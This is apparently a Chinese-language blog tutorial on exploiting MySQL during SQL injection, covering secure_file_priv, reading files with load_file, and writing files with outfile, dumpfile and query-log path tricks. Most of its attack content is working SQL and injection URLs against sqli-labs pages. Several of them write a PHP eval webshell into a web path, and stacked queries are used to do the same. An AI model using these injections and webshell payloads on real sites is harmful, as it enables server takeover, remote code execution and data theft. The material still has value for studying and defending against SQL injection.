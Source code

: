 # 0x00 简介

MySQL 中 在在mysql 5.6.34版本以后 secure_file_priv的值默认为NULL ,而 secure_file_priv为null 那么我们就不能导出文件，以下都建立在

secure_file_priv 的默认值被修改为无才能利用，且这个只能手工修改配置文件不能用sql语句，也就是想直接导出需要管理员不知道干了什么帮你修改好这个权限才行。

windows系统在 my.ini的[mysqld]下面加上secure_file_priv = ，linux 的在 /etc/my.cnf 同时读写权限问题就不用说了。

```
mysql> show global variables like '%secure%';
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_auth      | OFF   |
| secure_file_priv |       |
+------------------+-------+
2 rows in set (0.00 sec)

```



# 0x01 读文件

可以把文件hex一下输出，文件名也是支持 hex和char的


```
mysql> select * from admin union select 1,hex(load_file('D:\\1.txt')),3;
+------+------------------------+----------+
| id   | username               | password |
+------+------------------------+----------+
|    3 | bdmin                  | fdmin    |
|    2 | admin                  | ddmin    |
|    1 | cdmin                  | bdmin    |
|    1 | 617574686F72A3BA343034 | 3        |
+------+------------------------+----------+
4 rows in set (0.02 sec)

http://127.0.0.1/sqli/Less-1/?id=-1' union select 1,hex(load_file(0x463A5C5C312E747874)),3-- +

```

当然你加入你进了phpmyadmin类似的平台 可以执行sql语句，你可以选择把导入的数据插入表中
同时支持导入的函数还有 `load data infile`


```
create table test(test text);
insert into test(test) values (load_file('D:\\1.txt'));
select * from test;

```


如果能读文件在渗透测试中往往很有用，可以读取配置文件，系统问题等等关键信息，在我以前的一次意淫中，进入一个后台功能全被限制死了，但是可以执行导入，通过一个编辑器的目录遍历，发现某文件时间不一致，读取出来发现是webshell，应该是某黑客进去之后做的手脚


# 0x02 写文件

1.

写文件我们一般用到 `dumpfile`与`outfile` 她们其实是有区别 

`outfile` 会在行末写入新行，而且会转义换行符

`dumpfile` 能导出一个完整的文件，不会有任何转义 所以我们udf提取一般用的dumpfile


```

mysql> select * from admin where id =1 union select 1,'<?php eval($_POST[cmd]);?>',3 into outfile 'G:\\test.txt';
Query OK, 2 rows affected (0.00 sec)

```


2. 

后来大佬们找到一种方法通过日志来写shell解决这个史诗级难题，但是需要能直接执行sql语句利用有限

```
set global general_log=on;
set global general_log_file='D://404.php';
select '<?php eval($_POST['404']) ?>';

```

通过把日志路径更改 ，让查询的日志保存过去，还有一种慢日志，原理一样

```
mysql> show global variables like '%query_log%'
    -> ;
+---------------------+-------------------------------------------------------------+
| Variable_name       | Value                                                       |
+---------------------+-------------------------------------------------------------+
| slow_query_log      | OFF                                                         |
| slow_query_log_file | D:\phpstudy\PHPTutorial\MySQL\data\LAPTOP-M4APUKKN-slow.log |
+---------------------+-------------------------------------------------------------+
2 rows in set (0.00 sec)

```


```
set global slow_query_log=1;

set global slow_query_log_file='D://404.php'

select '<?php eval($_POST['404']) ?>' or sleep(15);

```



# 0x03 堆叠查询


mysql是支持堆叠查询的用`;` 分割语句,但是php原生的连接方式不支持，但是使用 PDO,mysqli_multi_query()等等是支持多语句的，在我们使用堆叠查询的时候基本是没有回显的，而且其实很难遇到这种环境。

```
mysql> select * from admin where id =1;select user();
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    1 | cdmin    | bdmin    |
+------+----------+----------+
1 row in set (0.00 sec)

+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)

```

这里讲在一起就是因为，假如支持堆叠查询还可以用日志来写shell。

```

http://192.168.59.129/Less-38/?id=1%27;set global general_log=on;set global general_log_file='C://phpstudy//404.php';--+

http://192.168.59.129/Less-38/?id=1%27;select '<?php eval($_POST[404]) ?>';--+

```


# 0x04 文末

#### 本文如有错误，请及时提醒，避免误导他人

* author：404
